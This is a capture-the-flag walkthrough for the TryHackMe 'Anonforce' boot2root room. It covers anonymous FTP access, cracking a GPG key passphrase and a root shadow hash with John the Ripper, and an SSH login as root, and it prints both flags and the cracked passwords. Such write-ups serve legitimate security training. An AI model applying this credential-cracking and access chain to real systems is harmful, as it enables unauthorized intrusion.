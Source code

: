# <div align="center">[Anonforce - TryHackMe Walkthrough | Complete Guide to Boot2Root](https://tryhackme.com/r/room/bsidesgtanonforce)</div>
<div align="center">boot2root machine for FIT and bsides guatemala CTF</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/b2bd9f6b-8995-402a-8e54-2c5596bc16cc" height="200"></img>
</div>

## Task 1. Anonforce Machine


### User.txt
```
606083fd33beb1284fc51f411a706af8
```
### Root.txt
```
f706456440c7af4187810c31c6cebdce
```

---

## Initial Enumeration
My journey into the Anonforce TryHackMe boot2root challenge started with a thorough nmap scan to enumerate open ports and services on the target machine.
```
nmap -sC -sV <Ip>
```
The scan revealed two interesting open services:
* FTP (Port 21) running `vsftpd 3.0.3`, which allowed anonymous login.
* SSH (Port 22) running `OpenSSH 7.2`.

Here's the relevant part of the scan output:

```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
Given the anonymous FTP login was enabled, I decided to investigate it further.
```

FTP Login and File Enumeration
Connecting to the FTP service was straightforward. I logged in using default anonymous credentials:
``bash
ftp <IP>
``
* Credentials: `anonymous:anonymous`

After logging in successfully, I explored the remote file system. The root FTP directory contained several folders, and I noticed a directory named home. Digging deeper, I navigated into:
```
ftp> cd home
ftp> ls
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
```
Capturing the User flag
Inside the melodias directory, there was an interesting file named user.txt. I downloaded the file to capture the first flag:
```
ftp> get user.txt
```
Once retrieved, I displayed the content of the file:
```
cat user.txt
```
And here was the user flag:
```
606083fd33beb1284fc51f411a706af8
```

## Discovering and Cracking the GPG Key

While continuing my FTP exploration, I stumbled upon an interesting directory named `notread` that contained two suspicious files:

* `backup.pgp` (an encrypted backup file)
* `private.asc` (a private GPG key)

Naturally, I downloaded both files for offline analysis:

```bash
ftp> get backup.pgp
ftp> get private.asc
```

### Converting Private Key for Cracking

My goal was to extract the passphrase protecting the private key. To do this, I used `gpg2john`, a tool designed to convert GPG private key files into a format suitable for John the Ripper:

```bash
gpg2john private.asc > privatex
```

Once converted, I ran John the Ripper to crack the passphrase:

```bash
john privatex --show
```

And success! The passphrase was revealed as:

```
xbox360
```

---

### Decrypting the Backup File

Armed with the passphrase, I imported the private key into my GPG keyring:

```bash
gpg --import private.asc
```

Then I decrypted the backup file using the discovered password:

```bash
gpg --decrypt backup.pgp
```

The decrypted content revealed a critical piece of information — a list of system users with hashed passwords, including the root hash:

```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
```

This was a major breakthrough. I now had the **root hash**.

## Cracking the Root Hash

After extracting the root hash from the decrypted `backup.pgp` file, the next logical step was to crack it. I used **John the Ripper** with the popular `rockyou.txt` wordlist:

```bash
john hash -w=/usr/share/wordlists/rockyou.txt
```

Within seconds, John successfully cracked the root password:

```
hikari (root)
```

This gave me the credentials I needed to gain full root access on the machine.

## Capturing the Root Flag

With the cracked password in hand, I initiated an SSH session as the root user:

```bash
ssh root@10.201.18.12
```

When prompted, I entered the password `hikari`, and I was instantly logged in as **root**.

From here, I navigated to the `/root` directory and captured the final root flag:

```bash
cat /root/root.txt
```

The flag was revealed as:

```
f706456440c7af4187810c31c6cebdce
```


## *Hope you enjoyed this guide! For a more detailed walkthrough, read the full article here: [https://infosecwriteups.com/anonforce-tryhackme-walkthrough-complete-guide-to-boot2root-d66405777aec](https://infosecwriteups.com/anonforce-tryhackme-walkthrough-complete-guide-to-boot2root-d66405777aec)*

